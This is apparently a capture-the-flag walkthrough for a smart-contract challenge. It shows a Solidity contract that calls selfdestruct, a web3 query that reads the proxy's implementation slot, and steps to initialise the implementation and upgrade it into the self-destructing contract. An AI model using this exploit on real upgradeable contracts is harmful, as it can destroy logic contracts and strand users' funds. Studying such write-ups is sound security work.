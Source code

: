 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Engine {
    function initialize() external;
    function upgradeToAndCall(address, bytes memory) external;
}

contract Exploit {
    function exploit () public {
        selfdestruct(payable(msg.sender));
    }

}
```
Get the address of the implementation contract
```javascript
await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
```

Interact directly with the implementation contract
- Call initialize()
- Call upgradeToAndCall(), passing the address of the Exploit contract, and the selector for the exploit() method
`0x63d9b770`
